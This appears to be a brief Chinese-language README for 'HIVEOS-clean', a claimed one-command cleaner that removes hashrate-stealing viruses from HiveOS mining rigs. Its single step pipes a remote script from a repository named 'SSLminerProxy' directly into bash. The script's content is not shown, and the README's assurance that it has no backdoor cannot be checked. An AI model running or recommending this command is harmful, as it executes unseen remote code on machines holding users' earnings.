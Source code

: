 # HIVEOS-clean
针对HIVEOS及其他定制版本（比如asia版，bigminer等）强力杀毒！
对偷算力，算力劫持等病毒有奇效，无后台，可自行测试！


一键杀毒命令，运行后矿机会自动杀毒重启


```bash 
curl -s https://raw.githubusercontent.com/SSLminerProxy/SSLminerProxy/main/clean.sh | bash
